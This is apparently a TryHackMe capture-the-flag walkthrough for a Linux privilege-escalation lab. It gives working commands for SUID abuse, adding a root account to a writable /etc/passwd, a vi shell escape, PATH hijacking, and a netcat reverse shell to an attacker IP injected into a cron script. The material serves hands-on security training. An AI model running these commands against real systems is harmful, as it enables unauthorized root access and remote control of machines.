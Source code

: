 # Common Linux Privesc

**Room Link:** [https://tryhackme.com/room/commonlinuxprivesc](https://tryhackme.com/room/commonlinuxprivesc)



## Enumeration



Download LinEnum Script

**Kali**

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Login to host

**Kali**

```
ssh user3@$VICTIM
Password: password
```

The target's hostname

<figure><img src="../../.gitbook/assets/image (1) (11).png" alt=""><figcaption></figcaption></figure>

There are 8 users

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

4 shells

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (5).png" alt=""><figcaption></figcaption></figure>

Some users can write to passwd file

<figure><img src="../../.gitbook/assets/image (4) (9).png" alt=""><figcaption></figcaption></figure>

## Abusing SUID/GUID Files

**Victim**

```
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

Running the shell script in user3 home directory gives us root access right away.

**Victim**

```
/home/user3/shell
```

<figure><img src="../../.gitbook/assets/image (4) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Exploiting Writeable /etc/passwd

**Victim**

```
su user7
Password: password
```

**Victim**

```
openssl passwd -1 -salt new 123
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (1) (7).png" alt=""><figcaption></figcaption></figure>

## Escaping Vi Editor

**Victim**

```
su user8
Password: password
```

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (3) (1) (6).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo vi
:!sh
whoami
```

<figure><img src="../../.gitbook/assets/image (5) (3) (2).png" alt=""><figcaption></figcaption></figure>

## Exploiting Crontab

**Victim**

```
ssh user4@$VICTIM
Password: password
```

**Kali**

```
msfvenom -p cmd/unix/reverse_netcat lhost=$KALI lport=8888 R
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 8888
```

**Victim**

```
cat /etc/crontab 
```

<figure><img src="../../.gitbook/assets/image (11) (1) (4).png" alt=""><figcaption></figcaption></figure>

Add our payload we made in Kali to the script

**Victim**

```
echo 'mkfifo /tmp/cibykaz; nc 10.10.185.2 8888 0</tmp/cibykaz | /bin/sh >/tmp/cibykaz 2>&1; rm /tmp/cibykaz' >> /home/user4/Desktop/autoscript.sh
```

Wait for the script to run and catch the shell on Kali.

<figure><img src="../../.gitbook/assets/image (3) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Exploiting PATH Variable

**Victim**

```
su user5
Password: password
```

The script in user5 home directory is just doing the command ls.

**Victim**

```
cd /home/user5
./script
```

<figure><img src="../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

We now create a script called ls that gives us a bash shell.

**Victim**

```
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
```

Before we change the path we can see ls goes to /bin/ls

****![](<../../.gitbook/assets/image (8) (7).png>)****

Now after running the below command ls is now directed to our script.

**Victim**

```
export PATH=/tmp:$PATH
```

<figure><img src="../../.gitbook/assets/image (14) (3).png" alt=""><figcaption></figcaption></figure>

Now the script in user5s directory acts differently, we now have a root shell.

**Victim**

```
cd /home/user5
/script 
```

<figure><img src="../../.gitbook/assets/image (18) (3).png" alt=""><figcaption></figcaption></figure>

Run the following to reset the path variable.

**Victim**

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
```
